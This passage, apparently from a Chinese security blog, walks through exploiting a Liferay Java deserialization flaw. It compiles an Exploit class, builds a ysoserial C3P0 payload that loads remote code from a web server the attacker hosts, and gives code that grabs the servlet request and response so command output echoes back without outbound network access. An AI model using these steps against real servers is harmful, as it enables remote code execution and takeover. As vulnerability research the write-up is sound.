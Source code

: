 ```
        `}`).start();
    `}`
`}`
```

命令行编译class文件

```
/Library/Java/JavaVirtualMachines/jdk1.8.0_112.jdk/Contents/Home/bin/javac Exploit.java
```

<a class="reference-link" name="%EF%BC%882%EF%BC%89%20%E7%94%9F%E6%88%90payload"></a>**（2） 生成payload**

ysoserial 生成c3p0 远程调用payload，将1.ser的十六进制字符串放到HexAsciiSerializedMap 后面

```
java -jar ysoserial.jar C3P0 "http://127.0.0.1:8089/:Exploit" &gt; 1.ser
```

<a class="reference-link" name="%EF%BC%883%EF%BC%89%20%E5%BC%80%E5%90%AFweb%E6%9C%8D%E5%8A%A1"></a>**（3） 开启web服务**

将编译好的Exploit.class 放在web目录下并开启服务

[![](https://p1.ssl.qhimg.com/t01c721b35a6a3e2696.png)](https://p1.ssl.qhimg.com/t01c721b35a6a3e2696.png)

### <a class="reference-link" name="0x2%20%E4%B8%8D%E5%87%BA%E7%BD%91%E5%9B%9E%E6%98%BEpayload"></a>0x2 不出网回显payload

将此方法详细的介绍下，在去年shiro反序列化漏洞出来的时候师傅们研究了各种中间件的不出网回显的利用方法。该方法的核心在于找到位于thread中的Request和Response ，从而可以在Request获取头部信息，在Response中写入回显结果。我们这次的回显对象是Liferay 因此就要在该代码中找到存储请求和相应对象的类方法。

<a class="reference-link" name="1.%20Request%E5%92%8CResponse"></a>**1. Request和Response**

我们可以通过liferay代码（JSONWebServiceServiceAction）分析得到其请求响应类ProtectedServletRequest 继承tomcat中的javax.servlet.http.HttpServletRequest，具体关系如下图所示：<br>**Request **

通过类关系图可以看出

[![](https://p3.ssl.qhimg.com/t0111531413181a36da.png)](https://p3.ssl.qhimg.com/t0111531413181a36da.png)

**Response**

[![](https://p1.ssl.qhimg.com/t01069156c05421ebf0.png)](https://p1.ssl.qhimg.com/t01069156c05421ebf0.png)

根据上面的关系图，我们就有了相应的目标，怎么从liferay中获取到ProtectedServletRequest对象呢？从下图中找到答案，AccessControlContext 定义了_httpServletRequest 和 _httpServletResponse属性以及getRequest和getResponse成员方法。

[![](https://p0.ssl.qhimg.com/t0157734c47dbaba0ee.png)](https://p0.ssl.qhimg.com/t0157734c47dbaba0ee.png)

因此我们可以采用以下方式获取目标的servlet 请求相应

```
httpServletResponse = com.liferay.portal.kernel.security.access.control.AccessControlUtil.getAccessControlContext().getResponse();
httpServletRequest = com.liferay.portal.kernel.security.access.control.AccessControlUtil.getAccessControlContext().getRequest();
```
